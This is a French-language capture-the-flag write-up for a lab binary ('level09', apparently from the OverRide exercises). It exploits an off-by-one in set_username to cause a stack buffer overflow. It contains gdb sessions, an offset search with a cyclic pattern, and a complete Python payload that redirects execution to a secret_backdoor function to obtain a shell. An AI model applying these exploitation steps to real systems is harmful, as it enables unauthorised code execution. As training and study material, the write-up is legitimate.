 on peut remarquer sur la fonction set username met username avec les 41 premiers caracteres du fgets de 128 on peut donc exploiter cela pour faire un buffer overflow et ecraser le return address de la fonction set_username
et le remplacer par l'addresse de secret backdoor qui est :

```shell
(gdb) b main
Breakpoint 1 at 0xaac
(gdb) r
Starting program: /home/users/level09/level09
warning: no loadable sections found in added symbol-file system-supplied DSO at 0x7ffff7ffa000

Breakpoint 1, 0x0000555555554aac in main ()
(gdb) info function secret_backdoor
All functions matching regular expression "secret_backdoor":

Non-debugging symbols:
0x000055555555488c  secret_backdoor
```

en mettant un \xff a la fin du buffer on peut voir que le programme crash

```shell
level09@OverRide:~$ python -c 'print "a"*40 + "\xff"'
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�
level09@OverRide:~$ python -c 'print "a"*40 + "\xff"' | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�>: Msg @Unix-Dude
>>: >: Msg sent!
Segmentation fault (core dumped)
```

maintenant qu'on sait que le programme crash on peut essayer de remplacer le return address par l'adresse de la fonction secret_backdoor
on va premierement chercher l'offset avant de trouver un pointeur vers le return address

```shell
(gdb) r
Starting program: /home/users/level09/level09 
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�
>: Welcome, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�>: Msg @Unix-Dude
>>: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9
>: Msg sent!

Program received signal SIGSEGV, Segmentation fault.
0x0000555555554931 in handle_msg ()
(gdb) x/s $rsp
0x7fffffffe5d8:  "6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah"

```
le 6 du 6Ag est le 200eme caractere donc l'offset est de 200

maintenant qu'on a l'offset on peut essayer de remplacer le return address par l'adresse de la fonction secret_backdoor

```shell
(gdb) b main
Breakpoint 1 at 0xaac
(gdb) r
Starting program: /home/users/level09/level09 
warning: no loadable sections found in added symbol-file system-supplied DSO at 0x7ffff7ffa000

Breakpoint 1, 0x0000555555554aac in main ()
(gdb) info function secret_backdoor
All functions matching regular expression "secret_backdoor":

Non-debugging symbols:
0x000055555555488c  secret_backdoor
(gdb) 
```

donc si on le fait en une seule commande on a :

1er argument : username (override sur le 41eme char) ``python -c 'print "a"*40 + "\xff"'``
2eme argument : l'offset et l'adresse de la fonction secret_backdoor en little indian ``python -c 'print "a"*200 + "\x8c\x48\x55\x55\x55\x55\x00\x00"'``
3eme argument : /bin/sh ``python -c 'print "/bin/sh"'``

on assemble le tout : ``python -c 'print "a"*40 + "\xff" + "\n" + "a"*200 + "\x8c\x48\x55\x55\x55\x55\x00\x00" + "\n" + "/bin/sh"'``

```shell
level09@OverRide:~$ python -c 'print "a"*40 + "\xff" + "\n" + "a"*200 + "\x8c\x48\x55\x55\x55\x55\x00\x00" + "\n" + "/bin/sh"' > /tmp/exploit
level09@OverRide:~$ cat /tmp/exploit - | le
less      lessecho  lessfile  lesskey   lesspipe  let       lexgrog   
level09@OverRide:~$ cat /tmp/exploit - | le
less      lessecho  lessfile  lesskey   lesspipe  let       lexgrog   
level09@OverRide:~$ cat /tmp/exploit - | ./level09 
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�>: Msg @Unix-Dude
>>: >: Msg sent!
whoami
end
```
